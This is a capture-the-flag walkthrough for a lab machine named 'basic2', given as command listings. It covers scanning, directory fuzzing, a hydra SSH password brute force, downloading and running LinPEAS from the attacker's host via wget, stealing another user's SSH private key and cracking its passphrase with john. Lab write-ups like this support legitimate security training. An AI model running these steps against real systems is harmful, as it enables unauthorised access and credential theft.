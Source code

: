10.10.162.125


## open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

## ping

```
$ ping 10.10.159.226
```


## nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
## search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

## simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


# bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

# login to user through ssh
```
$ ssh jan@10.10.162.125
```

# maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

# change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

# download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

# make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

# run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

# found possible private SSH keys 
/home/kay/ .ssh/id_rsa

# change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

# list files
```
jan@basic2:/home/kay$ ls
```

# found pass.bak

# list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

# change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

#list files
```
jan@basic2:/home/kay/.ssh$ ls
```

# found id_rsa

# cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

# save ssh key
```
$ mousepad kay_id_rsa
```


# run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

# crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


# chmod 
```
$ chmod 600 kay_id_rsa
```

# ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

# list down files
```
kay@basic2:~$ ls
```

# print pass.bak
```
kay@basic2:~$ cat pass.bak
```













